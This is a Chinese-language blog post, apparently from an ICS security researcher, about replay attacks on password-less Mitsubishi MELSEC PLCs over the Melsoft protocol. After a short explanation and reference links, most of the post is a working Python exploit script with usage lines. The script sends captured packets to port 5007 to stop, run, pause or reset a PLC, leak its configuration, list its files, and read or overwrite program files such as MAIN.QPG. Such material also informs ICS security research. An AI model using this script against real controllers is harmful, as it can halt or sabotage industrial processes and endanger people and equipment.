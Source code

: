 ```yaml
---
title: 三菱PLC控制脚本
date: 2020-05-17 00:00:00
categories:
- ICS
tags: 三菱 Melsoft
---
```


> 三菱系列PLC，Melsoft私有协议，但如果没有配置口令，则可以直接进行重放攻击，通过wireshark抓取组态软件与PLC的通信报文即可获得控制PLC的数据包，重放即可。

相关研究文章：

- [三菱Q系列PLC安全分析报告(MITSUBISHIELECTRIC MELSEC-Q series PLC Analysis Report)](http://plcscan.org/blog/2014/08/mitsubishi-electric-melsec-q-series-plc-analysis-report/)
- [三菱Q系列PLC以太网识别脚本（ICS Discovery Tools Releases）](http://plcscan.org/blog/2014/08/melsecq-plc-discover-tools-releases/)
- [三菱Q03UDV通訊(MC協定)](http://kilean.pixnet.net/blog/post/304348793-%E4%B8%89%E8%8F%B1-mc-protocol)
- [C#通过3E帧SLMP/MC协议读写三菱FX5U/Q系列PLC数据案例](https://www.haolizi.net/example/view_35959.html)

相关文档：

- [MELSEC-L CPU模块 用户手册.pdf](https://github.com/xuanxuanblingbling/ICS/blob/master/%E4%B8%89%E8%8F%B1/MELSEC-L%20CPU%E6%A8%A1%E5%9D%97%20%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C.pdf)
- [三菱Q系列与L系列通讯协议参考手册.pdf](https://github.com/xuanxuanblingbling/ICS/blob/master/%E4%B8%89%E8%8F%B1/%E4%B8%89%E8%8F%B1Q%E7%B3%BB%E5%88%97%E4%B8%8EL%E7%B3%BB%E5%88%97%E9%80%9A%E8%AE%AF%E5%8D%8F%E8%AE%AE%E5%8F%82%E8%80%83%E6%89%8B%E5%86%8C.pdf)

目前功能如下：
1. 启动、停止、暂停、重置
2. 查看PLC状态
3. 泄露架子信息
4. 泄露文件系统
5. 读写文件

用法：
```python
➜  python exp.py 192.168.2.1 stop
➜  python exp.py 192.168.2.1 run
➜  python exp.py 192.168.2.1 pause
➜  python exp.py 192.168.2.1 reset
➜  python exp.py 192.168.2.1 state
➜  python exp.py 192.168.2.1 leak 
➜  python exp.py 192.168.2.1 listfile
➜  python exp.py 192.168.2.1 readfile MAIN.QPG
➜  python exp.py 192.168.2.1 writefile MAIN.QPG 1111111111111111
```

```python
import socket,sys
s = socket.socket()
s.connect((sys.argv[1],5007))
if sys.argv[2]=="run" :
    s.send("57000000001111070000ffff030000fe03000016001c080a08000000000000000410019a00000001000000".decode("hex"))
    s.recv(1024)
elif sys.argv[2]=="stop":
    s.send("57000000001111070000ffff030000fe03000014001c080a0800000000000000041002630000000100".decode("hex"))
    s.recv(1024)
elif sys.argv[2]=="pause":
    s.send("57000000001111070000ffff030000fe03000014001c080a0800000000000000041003040000000100".decode("hex"))
    s.recv(1024)
elif sys.argv[2] == "state":
    s.send("57001f00001111070000ffff030000fe03000012001c080a080000000000000004080228000000".decode("hex"))
    r = s.recv(1024)
    if(r[0x2f]=='\x20'): print "run"
    elif(r[0x2f]=='\x22'): print "stop"
    elif(r[0x2f]=='\x23'): print "pause"
elif sys.argv[2] == "reset":
    s.send("57000000001111070000ffff030000fe03000014001c080a0800000000000000041002630000000100".decode("hex"))
    s.recv(1024)
    s.send("57000a00001111070000ffff030000fe03000014003c080a08000000000000000410060a0000000100".decode("hex"))
    s.recv(1024)
elif sys.argv[2] == "leak":
    s.send("57000000001111070000ffff030000fe03000014001c080a08000000000000000401012a0000000001".decode("hex"))
    r = s.recv(1024)[0x29:0x39]
    s.send("57000f00001111070000ffff030000fe0300001a001c080a0800000000000000040b050f0000000201540054000000".decode("hex"))
    r += s.recv(1024)[0x53:]
    s.send("57001000001111070000ffff030000fe0300001a001c080a0800000000000000040b05100000000201a80054000000".decode("hex"))
    r += s.recv(1024)[0x28:]
    print r.replace("A ","\nA ").replace(" 0"," ")
elif sys.argv[2] == "listfile":
    for i in range(1,9):
        try:
            payload = "57001900001111070000ffff030000fe0300001e001c080a080000000000000004181019000000000000000000"+str(i).zfill(2)+"0001000000"
            s.send(payload.decode("hex"))
            a = s.recv(1024)
            print a[0x2b:0x37],
            print int(a[0x47:0x49][::-1].encode("hex"),16)
        except:
            pass
elif sys.argv[2] == "readfile":
    s.settimeout(5)
    name = sys.argv[3]
    payload = name.encode("hex")
    length =  hex(len(name)+29)[2:]
    # open file 1827
    s.send(("57005c00001111070000ffff030000fe030000"+length+"001c080a08000000000000000418279600000000000000000000000a00"+payload+"00").decode("hex"))
    s.recv(1024)
    # read file 1828
    s.send("57005d00001111070000ffff030000fe0300001a001c080a0800000000000000041828900000000000000000008007".decode("hex"))
    r  = ""
    while True:
        try: r += s.recv(1024)
        except:break
    print r[0x2b:]
    # close file 182a
    s.send("57007400001111070000ffff030000fe03000016001c080a080000000000000004182aae00000000000100".decode("hex"))
    s.recv(1024)
elif sys.argv[2] == "writefile":
    s.settimeout(5)
    name = sys.argv[3]
    payload = name.encode("hex")
    length =  hex(len(name)+29)[2:]
    # open file 1827
    s.send(("57005c00001111070000ffff030000fe030000"+length+"001c080a08000000000000000418279600000000000000000100000a00"+payload+"00").decode("hex"))
    s.recv(1024)
    data = sys.argv[4]
    content = data.encode("hex")
    length = hex(len(data)+26)[2:]
    # write file 1829
    s.send(("57001a00001111070000ffff030000fe030000"+length+"001c080a08000000000000000418291a0000000000000000008007"+content).decode("hex"))
    s.recv(1024)
    # close file 182a
    s.send("57007400001111070000ffff030000fe03000016001c080a080000000000000004182aae00000000000100".decode("hex"))
    s.recv(1024)
```
